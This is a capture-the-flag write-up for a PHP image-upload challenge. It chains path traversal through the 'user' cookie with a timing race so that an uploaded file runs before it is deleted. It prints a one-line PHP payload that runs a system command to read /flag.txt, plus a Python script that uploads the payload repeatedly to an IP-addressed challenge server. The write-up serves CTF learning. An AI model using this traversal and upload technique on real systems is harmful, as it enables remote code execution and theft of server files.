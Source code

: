 ## Vulnerability

The file is saved for 1.5 seconds before being deleted. That is the problem!

If we upload the ```exploit.php``` file, we can call it to read ```/flag.txt``` before it is deleted
```php
<?php system("cat /flag.txt;") ?>
```
{: file="exploit.php" }

Target is clear! Now let's kill the site down!

## Exploitation

The website is at ```/var/www/html```, so our target is to upload file there.

Check the file path again
```php
$uploadpath = "/var/tmp/";
$error = "";

$timestamp = time();

$userValue = $_COOKIE['user'];
$target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];
```

The file is uploaded to ```/var/tmp/```.

But ```$userValue``` is get from ```$_COOKIE['user']``` by ```$userValue = $_COOKIE['user'];```, so we can handle it, by giving it value ```../../var/www/html```! (This is the minor vulnerability: using untrusted data directively)

Uploading file is done! Now we need to call the file.

Another annoying here, ```$timestamp```.

We can run 2 independent thread, one is keep uploading code, another keep calling the file from the future timestamp.

- Current timestamp is 1004. The second thread keeps calling the file from timestamp 1009.

- The first thread keeps uploading file. It will be named 1004, 1005, 1006, etc. When it is named 1009, it will be called successfully.

## Solution

```php
<?php system("cat /flag.txt;") ?>
```
{: file="exploit.php" }

```python
import requests

session = requests.Session()
session.cookies.set('user', '../../var/www/html/a')

while True:
    with open('exploit.php', 'rb') as f:
        # r = session.post('http://localhost:1337/', files={'image':('exploit.php', f)})
        r = session.post('http://13.215.248.36:30301', files={'image':('exploit.php', f)})
        print(r.status_code)
```
{: file="metadata_inp.py" }

